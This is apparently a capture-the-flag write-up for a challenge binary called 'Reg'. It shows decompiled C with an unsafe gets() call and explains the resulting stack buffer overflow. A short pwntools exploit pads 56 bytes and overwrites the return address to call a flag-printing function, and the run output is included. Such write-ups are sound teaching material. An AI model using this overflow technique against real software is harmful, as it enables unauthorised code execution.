 # Reg
When ran, the binary prompts for your name and returnes "Registered!". Static analysis is necessary to understand the binary's underlying functionality.
## Static Analysis

```c
void run(void)

{
  char local_38 [48];
  
  initialize();
  printf("Enter your name : ");
  gets(local_38);         [1]
  puts("Registered!");
  return;
}
```

```c
void winner(void)

{
  char local_418 [1032];
  FILE *local_10;
  
  puts("Congratulations!");
  local_10 = fopen("flag.txt","r");
  fgets(local_418,0x400,local_10);
  puts(local_418);
  fclose(local_10);
  return;
}
```
### Vulnerability
`gets()` [1] stores characters past the end of the buffer, which results in a buffer overflow vulnerability.


## Exploitation
An exploit was created in Python with pwntools library to overflow past the buffer of `local_38` and `rbp` into `rip` with the address of the `winner()` function which opens the flag.txt file.

**Creating the pwntools template:**
```bash
pwn template --host 300.300.300.300 --port 1234 ./reg >> solution.py
```
**Pwntools exploit:**
```python
io = start()
padding = b"A"*56 #56 bytes of padding to overflow past rbp into rip
flagfunc = p64(exe.symbols["winner"],endian="little") #the address of the winner function
io.recvuntil(b"name :") #stop at prompt
io.sendline(padding+flagfunc) #send padding and winner function address to call flag function
```
The exploit is then ran against the live challenge IP address and port number.

`./solution.py HOST=[ip address] PORT=[port]`

**Result:**
```txt
[*] Switching to interactive mode
 Registered!
Congratulations!
HTB{[flag]}
```